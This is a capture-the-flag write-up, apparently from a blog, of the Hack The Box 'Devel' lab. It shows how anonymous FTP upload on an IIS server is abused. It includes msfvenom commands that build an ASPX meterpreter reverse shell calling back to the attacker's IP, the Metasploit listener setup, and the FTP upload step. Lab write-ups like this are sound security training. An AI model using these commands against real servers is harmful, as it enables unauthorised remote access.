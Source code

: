```yaml
---
title: 'HachTheBox - Devel'
date: '2021-10-04 14:00:00 +0000'
categories: [HTB, easy]
tags: [hackthebox, easy]     # TAG names should always be lowercase
comments: true
mermaid: true
image:
  src: /assets/img/devel/devel.png
  width: 1000   # in pixels
  height: 400   # in pixels
  alt: Legacy box logo icon
---
```



Firstly we begin with our NMAP scan. From our scan results we see that ports 21 (ftp) & 80 (http) are open. My first obvservation is that anonymous login is permitted on the FTP server.

![nmap-scan-results](/assets/img/devel/devel-nmap.png)

Before attempting to connect to FTP, I'd like to take a look at what the web server on port 80 is serving up so in a browser I navigate to "http://10.10.10.5". We see a default webpage for IIS Microsoft webserver. To save time I'll skip the step of running Dirbuster, which I would normally do at this point to see if I could bruteforce any hidden directories.

![iis-webpage](/assets/img/devel/iis7.png)

As the FTP server allows for anonymous login, I test it to see if we can get access. The anonymous login is successfull. We'll be using it to upload a malicious file. The malicious file will be a reverse shell that we'll be connecting to via Metasploit.

![iis-webpage](/assets/img/devel/ftp-in.png)

The snippet we need to generate our file can be found here "https://mytrickstuff.com/hacks-and-tricks/msfvenom-cheat-sheet-one-page-one-code/". As we're dealing with a Microsoft webserver we need to locate the payload for the file type of ASP. ```msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp > shell.asp```. 

![iis-webpage](/assets/img/devel/cheatsheet.png)

Enter the snippet for ```msfvenom``` to build the file. Add your tun0 IP to ```LHOST```. I changed the file extension to ASPX, but either ASP or ASPX will work, make sure the file extension in the command and the extension of the file your putting it in are the same. This will take a few seconds to generate. ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.4 LPORT=4444 -f aspx > ex.aspx```.

![iis-webpage](/assets/img/devel/venom.png)

We fire up Metasploit using ```msfconsole``` and enter ```use exploit/multi/handler``` to begin opening up a listener. 

![iis-webpage](/assets/img/devel/use-multi-handler.png)

We need to reconfigure the options. This requires setting the payload to the same as we used for the malicious reverse shell file we generated with ```msfvenom```. We also need to set the ```LHOST``` to the same IP as we used, which is the IP of our tun0 network interface. We enter ```run``` to start the listener.

![iis-webpage](/assets/img/devel/set-options-run.png)

Now we need to upload our malicious file. We connect to the FTP server with ```ftp 10.10.10.5```

![iis-webpage](/assets/img/devel/ftp-in.png)

And upload our file to the server with ```put ex.aspx```.

![iis-webpage](/assets/img/devel/ftp-in.png)











